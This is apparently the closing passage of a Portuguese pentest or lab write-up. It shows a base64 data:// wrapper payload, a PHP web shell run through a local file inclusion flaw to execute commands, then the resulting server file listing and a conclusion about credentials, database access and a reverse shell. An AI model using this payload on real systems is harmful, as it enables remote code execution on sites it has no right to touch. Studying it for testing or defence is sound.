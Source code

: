 ### ▶️ Executando `ls -la` 💉
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=ls%20-la


            total 84
    drwxr-xr-x 12 www-data www-data 4096 Sep 18 22:39 .
    drwxr-xr-x  3 root     root     4096 Sep 18 11:04 ..
    -rw-r--r--  1 root     root      165 Sep 18 22:26 .htaccess
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 11:03 BANCO DE DADOS
    drwxr-xr-x  2 root     root     4096 Sep 18 22:47 adminhelp
    -rw-r--r--  1 root     root      101 Sep 18 22:43 backup.php
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 11:03 css
    drwxr-xr-x  6 www-data www-data 4096 Sep 18 11:03 font-awesome
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 11:03 fonts
    -rw-r--r--  1 www-data www-data 1559 Sep 18 15:19 header.php
    -rw-r--r--  1 www-data www-data 1274 Sep 18 15:05 home.php
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 11:03 images
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 13:17 img
    -rw-r--r--  1 www-data www-data 3242 Sep 18 14:57 index.php
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 11:03 js
    -rw-r--r--  1 www-data www-data  995 Sep 18 11:03 login.php
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 11:30 prog
    -rw-r--r--  1 root     root       26 Sep 18 22:07 robots.txt
    -rw-r--r--  1 www-data www-data 1723 Sep 18 15:07 submit.php
    drwxr-xr-x  2 www-data www-data 4096 Sep 18 16:16 uploads
    -rw-r--r--  1 root     root      105 Sep 18 22:45 webdata
    )�

        
```


---

# 📖 Conclusão 💉

- ✔️ O site apresenta vulnerabilidades de **LFI** que podem evoluir para **RCE** utilizando técnicas de **Base64 Data Wrapper**.  
- ✔️ Foram identificadas credenciais em **Base64**, sugerindo possível exploração de acesso.  
- ✔️ Apesar de não exibir diretamente no navegador, os comandos executados podem ser verificados no **código-fonte via DevTools**.
- ✔️ Acesso ao Banco de Dados e possivel shell reversa.

- dica : Quando for usar 'backspace' use %20 ; não use + .
- ⚡ Essa análise confirma o risco de exposição crítica do sistema.
